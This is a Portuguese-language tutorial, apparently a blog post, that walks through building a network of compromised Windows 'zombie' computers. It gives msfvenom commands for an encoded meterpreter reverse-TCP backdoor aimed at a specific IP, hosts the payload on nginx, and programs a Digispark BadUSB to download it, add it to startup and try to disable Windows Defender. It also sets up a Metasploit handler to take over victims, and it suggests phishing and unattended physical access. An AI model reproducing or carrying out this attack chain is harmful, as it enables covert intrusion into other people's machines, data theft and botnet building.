 

**Criar uma instancia e definir um IP estatico**

 Eu estarei utilizando o **GCP(Google cloud platform) **mas você pode utilizar o provedor de **CLOUD** que deseja ou até mesmo um VPS.

Acesso meu console e crio a instancia. Estancia essa que é bem basica, uma micro com SO Debian 9

Com o a instancia criada, eu defino um IP estatico para minha instancia.
O IP estatico é necessario para que não ocorra o risco do IP que definirmos no nosso backdoor mudar e perdemos nossos "computadores zumbis" já conquistados.

**Instalar METASPLOIT**

![](https://res.cloudinary.com/peerlyst/image/upload/c_limit,dpr_auto,f_auto,fl_lossy,h_428,q_auto,w_880/v1/post-attachments/1567258807005_bbvioc)

 Nesse passo vamos instalar nosso canivete suiço **METASPLOIT** para criamos nosso **BACKDOOR** e orquestramos nossos "computadores zumbis"

   Conecte-se a sua instancia por ssh para instalarmos o **METASPLOIT**
   
 ```shell
 curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
```
conceda permisão de execução para o instalador

 ```shell
 chmod +x msfinstall
```
agora execulte o mesmo

 ```shell
 ./msfinstall
```

Como vai ser a primeira execução o **METASPLOIT** vai perguntar se você deseja configurar seu ambiente, criando um novo banco de dados para o metasploit você responde com um sim e seus dados que ele vai criar as credenciais e configurar tudo para que você possa utilizar a ferramenta

 ```shell
 msfconsole --version
```


**Criar BACKDOOR REVERSE**

![](https://encrypted-tbn0.gstatic.com/images?q=tbn%3AANd9GcSCSVqEzi43NukYA2E1HUfNSnztdZxoeFKaTczSbokL40tqbRL9)

Agora vamos criar o nosso backdoor definindo qual tipo de conexão iremos usar que vai ser uma** REVERSA TCP** para qual tipo de SO alvo que sera maquinas Windows, qual vai ser o nosso **LHOST**(IP de comunicação) nossa **LPORT**(porta de comunicação) o tipo da extenção do backdoor **-f exe** o algoritmo de criptografia e compreensão, **-i ** o numero de interações do encoded com o backdoor, e **-o** o nosso arquivo de saida.  Se você estive e uma cloud provavelmente vai ter que *criar uma regra de firewall* para a sua porta escolhida

 ```shell
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=34.97.212.80 LPORT=5000 -f exe -e x86/shikata_ga_nai -i 5 -o payload.exe
```

Rodando um ls para listar os arquivos do diretorio verá que o arquivo payload.exe foi criado


** Configurar NGINX para download do backdoor**

 o **NGINX** vai ser necessario para  criarmos um servidor web no qual o nosso payload do **Digispark** possa fazer o download do **BACKDOOR** para dentro da maquina alvo. Ou enviarmos o link atraves de engenharia social para obter acesso a maquina alvo. 
 
 Vamos instalar o nginx

 ```shell
 sudo apt-get update
 sudo apt-get install -y nginx
```
Iremos criar uma copia do nosso backdoor dentro da pasta do servidor

 ```shell
 sudo cp ./payload.exe /var/www/html/payload.exe
````

Feito isso nosso arquivo vai esta disponivel para download em

http://34.97.212.80/payload.exe


**Digispark**

![](https://pbs.twimg.com/media/ELWqVmnXUAE5ku8.jpg)

Para continuarmos com nosso ataque, precisamos conquistar nosso primeiro "Zumbir". Podemos fazer isso de varias formas envolvendo engenharia social entre elas as mais comuns, como enviar o nosso link para um amigo, ofuscado de tal forma que não levante suspeitas. O ataque também pode ser feito utilizando tecnicas de **Phishing**.

Mas aqui vou abordar um **ataque de infecção fisica**, onde vamos precisar ter acesso fisico a uma maquina e com a posse de um **Digispark** iremos infectar o alvo.

Para quem não conhece o **Digispark**, ele é uma placa de desenvolvimento com tamanho reduzido e 6 pinos de I/O (entrada/saída), ideal para uso em projetos de IoT (Internet of Things ou Internet das Coisas) ou simplesmente para uso em projetos onde você não precisa de muitas portas do microcontrolador.

![](https://i.ytimg.com/vi/YXWxEzLHXuw/maxresdefault.jpg)

> *Poderiamos utilizar o **Rubber duck** original, mas no Brasil é dificil encotramos e os poucos que chegam a ser vendidos por precinho um pouco salgado. *

O **Digispark** chega ser um GENERICO ao Rubber duck*(dispositivo esse usado na serie Mr. Robot) * tem um desempenho inferior mas é uma alternativa acessivel e viavel para o nosso ataque e pode ser programada com a** IDE do Arduino**. com isso configuraremos o Digispark para ser reconhecido como um teclado, qual não iremos precisar de nenhum tipo de permisão do usuario da maquina, e iremos executar comandos de teclado para fazer o download do backdoor e execultar ele na maquina, adicionando ele junto a inicialização do Windows, para que quando a maquinar for reiniciar obtermos uma nova conexão com a mesma.

Agora bora lá, para isso você vai precisar de um[ Digispark ATtiny85 que pode ser encontrado no mercado livre por R$ 16](https://eletronicos.mercadolivre.com.br/pecas-componentes/arduino-digispark " Digispark ATtiny85 que pode ser encontrado no mercado livre por R$ 16") . Com ele em mãos agora você vai precisar carregar nele os modulos de "teclado" transformando-o em um "rubbe duck" para isso você pode seguir os passos [deste tutorial](https://aminbohio.com/creating-a-cheap-rubber-ducky-aka-bad-usb-with-attiny85 "este tutorial") e voltar aqui

> *Talvez você enfrente problemas ao efetuar a injeção de payload no digispark para resolver isso você vai precisar [configurar o uDev ]( https://www.hardware.com.br/livros/ferramentas-linux/entendendo-udev.html "configurar o uDev ")*

**Criar Payload para injectar o BACKDOOR**

Feito tudo isso e com o **ARDUINO IDE** instalado vamos criar o nosso Payload que ao plugarmos em uma maquina vai fazer o download do backdoor, mover ele para a inicialização do windows, tentar desativar o windows defender e  executar nosso backdoor, tudo isso em menos de 30 segundos.

Abra o Arduino IDE e cole o [payload que vou deixar aqui](https://github.com/despossivel/Vetor-de-ataque-com-CLOUD---BACKDOOR-DIGISPARK/blob/master/payload.ino "payload que vou deixar aqui") para vocês. Copiado, colado e entendido o que o payload faz, clique em verificar primeiro, para debugar nosso codigo e depois em carregar e aguarde a IDE solicitar que você pluge o digispark. Ao plugar a IDE vaI injetar na placa nosso payload e SUCESSO! 

![](https://cedarctic.github.io/digiQuack/images/logo.png)

Nosso **DigiQuack esta criado**.


** Iniciar escuta das conexões do backdoor**

Agora voltamos para a nossa instância para iniciarmos a escuta do backdoor na nossa porta. Em acesso SSH iniciamos o console do Metasploit executado

```shell
msfconsole
```
Depois de iniciado vamos selecionar qual exploit iremos usar, que é o multi/handle
feito isso setamos o meterpreter de conexão reversa tcp para o windows, setamos o nosso HOST e PORTA, os mesmo usados na criação do backdoor, e ExitOnSession para que o manipulador possa continuar executando como trabalho mesmo com uma sessão fechada ou com falha no medidor.

```shell
    msf >use exploit/multi/handler
    msf >set PAYLOAD windows/meterpreter/reverse_tcp
    msf >set LHOST 34.97.212.80
    msf >set LPORT 5000
    msf >set ExitOnSession false
```
feito tudo isso estamos prontos para receber nossas conexões, você pode pressionar ctrl+c para liberar o terminal que agora iremos visualizar nossas conexões e obter acesso.

**Obter acesso a uma maquina infectada**

Agora basta pluga-lo em qualquer maquina windows desviar a atenção do usuario da maquina aguardar alguns segundos e remove-lo, tudo muito rapido.

Você também pode enviar o link para alguem ou plugar o digispark em alguma maquina e aguardar o primeiro a se juntar a sua rede de zumbis hahahaha

para ficar na esculta em tempo real de quem se conectou ou disconectou rode.

```shell
    msf > exploit -j -z
```
 para listar nossas conexões de entrada até o momento

```shell
msf> sessions -l 
```
você tera uma saida algo como

![](https://s5.gifyu.com/images/sessionsL.png)



e para acessar um "zumbir
```shell
msf> sessions -i <numero da sessão> 
```

com isso você obtem acesso shell 

![](https://s5.gifyu.com/images/sessionsI.png)

 
#### ** CONHECIMENTO NÃO É CRIME, CRIME É O QUE VOCÊ FAZ COM ELE. **

#### **ENTÃO UTILIZE  O QUE APRENDEMOS AQUI PARA FINS DIDATICOS, PARA ZUAR UM AMIGO OU IRMÃO E RESPEITE A PRIVACIDADE DOS OUTROS**

@despossivel
